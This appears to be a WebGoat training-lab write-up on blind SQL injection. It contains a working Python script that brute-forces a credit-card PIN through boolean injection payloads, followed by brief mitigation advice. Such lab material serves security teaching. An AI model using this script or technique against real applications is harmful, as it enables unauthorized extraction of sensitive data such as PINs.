 ## Vulnerability:

blind sqli

## Exploitation:

Here's my script that exploits (finds requested pin field: 2364 in pins table) this issue:

```
#!/usr/bin/python3

# (http://docs.python-requests.org/en/latest/)
from requests import post
import sys

proxies = {
    "http": "http://127.0.0.1:8081",
}

headers = {
    'Content-Type': 'application/x-www-form-urlencoded',
    'Origin': 'http://webgoat.hacking-lab.com',
    'Referer': 'http://webgoat.hacking-lab.com/attack?Screen=4&menu=1100'
}

cookie = ''

for i in range(1111,9999):
    print(i)
    payload = "101 AND (SELECT pin FROM pins WHERE cc_number=1111222233334444)="+str(i)
    data = {'account_number': payload, 'SUBMIT': 'Go'}
    if cookie == '':
        r = post("http://webgoat.hacking-lab.com/attack?Screen=4&menu=1100", headers=headers, proxies=proxies, data=data)
        cookie = dict(JSESSIONID=r.cookies['JSESSIONID'])
    else:
        r = post("http://webgoat.hacking-lab.com/attack?Screen=4&menu=1100", headers=headers, proxies=proxies, cookies=cookie, data=data)

    if 'Account number is valid' in r.text:
        print('pin: ' + str(i))
        break
```

## Mitigation:
1) validate input data

2) follow guidelines from https://www.owasp.org/index.php/SQL_Injection_Prevention_Cheat_Sheet
